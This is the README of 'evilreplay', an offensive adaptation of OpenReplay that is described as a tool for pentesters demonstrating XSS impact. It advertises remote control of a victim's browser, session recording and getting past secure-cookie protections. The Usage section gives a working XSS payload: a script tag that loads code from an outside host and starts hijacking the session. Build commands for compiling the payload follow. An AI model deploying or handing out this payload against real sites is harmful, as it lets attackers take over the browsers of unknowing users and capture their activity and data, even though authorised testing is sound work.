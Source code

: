 <p align="center">
  <a href="https://github.com/EgeBalci/evilreplay">
    <img src="https://github.com/EgeBalci/evilreplay/raw/master/.github/img/banner.png">
  </a>
</p>

<h3 align="center">Seamless remote browser session control for pentesters</h3>

<p align="center">
  <a href="https://docs.openreplay.com/deployment/deploy-aws">
    <img src="static/btn-deploy-aws.svg" height="40"/>
  </a>

  <a href="https://docs.openreplay.com/deployment/deploy-gcp">
    <img src="static/btn-deploy-google-cloud.svg" height="40" />
  </a>

  <a href="https://docs.openreplay.com/deployment/deploy-azure">
    <img src="static/btn-deploy-azure.svg" height="40" />
  </a>

  <a href="https://docs.openreplay.com/deployment/deploy-digitalocean">
    <img src="static/btn-deploy-digital-ocean.svg" height="40" />
  </a>
</p>


This tool is a weaponized adaptation of the [OpenReplay project](https://github.com/openreplay/openreplay), tailored for penetration testers and security professionals to demonstrate and assess the impact of Cross-Site Scripting (XSS) vulnerabilities in restricted environmets without the need for stealing cookies.

https://github.com/user-attachments/assets/ef0f4018-db54-47b4-8513-90ae7a244e3a

### 🔥 Key Features

* 🎯 **Remote Browser Control**
  Interact with the victim’s browser in real time via an intuitive UI — click buttons, follow links, and simulate keystrokes remotely.

* 📹 **Automatic Session Recording**
  All victim interactions are recorded, providing replayable sessions for easier analysis and reporting of XSS findings.

* 🔍 **Deep Visibility**
  Access detailed browser diagnostics:

  * Console logs & JS errors
  * Network requests and responses
  * Application state and store actions
  * 40+ performance and behavior metrics

* 🛡️ **Bypasses Secure Contexts**
  Capture data even when secure cookies and modern browser protections are in place.

## Usage

The following script can be used as a XSS payload. **(don't forget to change the `projectKey`)** Follow the [Building The Payload](#Building-The-Payload) section for compiling the payload from the source. (The `ingestPoint` parameter needs to be updated when self-hosting)


```html
<script src="https://ege.sh/drop/sc.js" onload=evilreplay("OEeP7C6ysFPXP8mDI04T")></script>
```

## Building The Payload

For building the `evilreplay.js` XSS payload from the souce you need to install [bun](https://bun.sh/) follow the steps below.

```
git clone https://github.com/EgeBalci/evilreplay
cd ./evilreplay/tracker/tracker-assist
bun install 
bun run build 
cd ../tracker 
bun run build 

# XSS payload is built as dist/iife/evilreplay.js
```

## Deployment Options

OpenReplay can be deployed anywhere. Follow our step-by-step guides for deploying it on major public clouds:

- [AWS](https://docs.openreplay.com/deployment/deploy-aws)
- [Google Cloud](https://docs.openreplay.com/deployment/deploy-gcp)
- [Azure](https://docs.openreplay.com/deployment/deploy-azure)
- [Digital Ocean](https://docs.openreplay.com/deployment/deploy-digitalocean)
- [Scaleway](https://docs.openreplay.com/deployment/deploy-scaleway)
- [OVHcloud](https://docs.openreplay.com/deployment/deploy-ovhcloud)
- [Kubernetes](https://docs.openreplay.com/deployment/deploy-kubernetes)


